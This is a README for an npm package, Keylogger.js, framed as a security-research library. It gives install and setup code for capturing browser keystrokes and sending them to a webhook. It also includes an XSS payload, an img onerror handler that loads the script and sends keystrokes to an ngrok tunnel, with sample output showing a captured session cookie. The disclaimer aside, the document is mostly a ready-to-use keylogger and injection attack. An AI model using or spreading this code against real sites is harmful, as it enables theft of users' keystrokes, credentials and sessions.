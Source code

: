 # Keylogger.js
**Keylogger.js** is a lightweight JavaScript library for ethical hacking, penetration testing, and security research. It allows security professionals to capture keyboard events and send them securely to a specified webhook for analysis. Designed for ethical use only, this library serves as a tool for demonstrating vulnerabilities in applications and enhancing system security.

## ⚠️ Disclaimer
This library is intended **only for ethical purposes** such as security research and testing within authorized environments. Unauthorized use, including any malicious or illegal intent, is strictly prohibited. The author disclaims all responsibility for any misuse of this software.

## Features
- **Lightweight**: keylogger.js is a lightweight library that can be easily integrated into any web application.
- **Secure**: All captured keyboard events are base64 encoded and sent securely to a specified webhook.
- **Customizable**: Developers can customize the library to suit their needs, including changing the webhook URL and adding additional functionality.
- **Modular**: Built using modern TypeScript for robust type safety and developer experience.

## Installation
You can install **Keylogger.js** via npm or yarn:

```bash
# Using bun
bun install @mihnea.dev/keylogger.js
# Using npm
npm install @mihnea.dev/keylogger.js
# Using yarn
yarn add @mihnea.dev/keylogger.js
```
If you prefer embedding the library directly in your HTML file, include the script:
```html
<script src="https://..."></script>
```

## Usage
To use keylogger.js in your web application, you need to import the library and initialize it with your webhook URL:

```typescript
import Keylogger from '@mihnea.dev/keylogger.js';

/* Initialize the Keylogger with your webhook */
const _: Keylogger = new Keylogger('https://your-webhook-url.com');
```

Should you embed the script directly in your HTML file, you can initialize the library as follows:

```html
<script>
  const _ = new Keylogger('https://your-webhook-url.com');
</script>
```

## Configuration Options
Keylogger.js supports several configuration options that can be passed to the constructor:
- `webhook`: The URL to which the captured keyboard events will be sent.
- `logAll`: A boolean flag indicating whether all keyboard events should be logged (default: `false`).

## Example 
This example demonstrates how to use Keylogger.js in a controlled testing environment by integrating the Python server, exposing it using Ngrok, and embedding the library into a vulnerable webpage to simulate XSS.

### 1. Start the Python Webhook Server
The Python server included in [`./examples/server.py`](./examples/server.py) listens for incoming requests from Keylogger.js. It decodes Base64-encoded payloads and logs them. To start the server, run the following command:

```bash
python3 examples/server.py
```

### 2. Expose the Server Using Ngrok
To expose the Python server to the internet, use Ngrok. Run the following command to start an HTTP tunnel:

```bash
ngrok http 3000
```

### 3. Embed Keylogger.js in a Webpage
This step demonstrates embedding Keylogger.js into a vulnerable webpage as part of an XSS simulation.

```html
<img src="invalid.jpg" onerror="
    const script = document.createElement('script');
    script.src = 'https://your-cdn-link.com/keylogger.js';
    document.body.appendChild(script);
    script.onload = () => {
        const _ = new Keylogger('https://<random-id>.ngrok.io', true);
    };
">
```

### Observing Results:
1. The Keylogger.js library captures keystrokes and sends them to the webhook.
2. The Python server decodes the Base64-encoded payload and logs the captured keystrokes.
```bash
Decoded Payload: {"type":"keypress","value":"a","session":{...}}
Parsed JSON:
{
    "type": "keypress",
    "value": "a",
    "session": {
        "id": "unique-session-id",
        "created_at": "2024-11-29T18:00:00Z",
        "user_agent": "Mozilla/5.0",
        "session_cookie": "master-kw-session"
    }
}
```

## Security Considerations
- Ensure you use this library only in authorized and controlled environments.
- Do not use this tool for any illegal or unauthorized activity.
- Always notify and gain consent from stakeholders before testing.

## Contributing
Contributions are welcome! Feel free to open issues or submit pull requests to improve the library.

## License
This project is licensed under the MIT License. See the [LICENSE](./LICENSE) file for more information.
